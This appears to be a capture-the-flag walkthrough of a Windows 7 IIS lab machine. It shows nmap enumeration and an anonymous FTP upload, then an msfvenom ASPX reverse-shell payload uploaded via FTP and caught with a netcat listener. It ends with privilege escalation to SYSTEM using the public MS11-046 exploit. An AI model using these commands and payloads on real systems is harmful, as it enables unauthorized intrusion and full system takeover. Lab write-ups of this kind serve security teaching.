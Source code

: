 # IP Address: 10.10.10.5

# Enumeration.1

```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.5 -t all

Running all scans on 10.10.10.5

Host is likely running Windows


PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

### FTP
Anonymous login possible. Test file upload. Success.
```
┌──(code㉿kali)-[~]
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:code): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put test.txt 
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

# Exploitation.1

Create reverse shell executable and upload to the target. 
```
┌──(code㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4488 -f aspx > reverse.aspx        
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2737 bytes

┌──(code㉿kali)-[~]
└─$ ftp 10.10.10.5                                                                                  
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:code): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put reverse.aspx 
local: reverse.exe remote: reverse.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
73802 bytes sent in 0.00 secs (663.9913 MB/s)
```

Browse to http://10.10.10.5/reverse.aspx and catch reverse shell with netcat listener on port 4488.

```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488
listening on [any] 4488 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.5] 49158
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>

```

No access to what directory probably has user.txt.
```
C:\>cd Users
cd Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of C:\Users

18/03/2017  01:16 ��    <DIR>          .
18/03/2017  01:16 ��    <DIR>          ..
18/03/2017  01:16 ��    <DIR>          Administrator
17/03/2017  04:17 ��    <DIR>          babis
18/03/2017  01:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  09:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)  22.282.698.752 bytes free

C:\Users>cd babis
cd babis
Access is denied.

```

# Enumeration.2
Copied over winpeas.exe but it's not running for some reason. We revert to manual enumeration. We are only the iis apppool\web user so we need a privilege escalation vector.

Windows 7 is notoriously riddled with vulnerabilities, so a quick Google search should turn up something. We try the first exploit for MS11-046.

# Exploitation.2

```
┌──(code㉿kali)-[~]
└─$ searchsploit -m windows_x86/local/40564.c

┌──(code㉿kali)-[~]
└─$ i686-w64-mingw32-gcc 40564.c -o afd.exe -lws2_32 
```

Copy the exploit to the target via FTP after setting the transfer mode to binary.

On the target: 
```
C:\inetpub\wwwroot>afd.exe
afd.exe

c:\Windows\System32>whoami 
whoami 
nt authority\system

```

# Proof
user.txt

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Blue/images/Pasted%20image%2020211113191455.png)

root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Blue/images/Pasted%20image%2020211113191530.png)
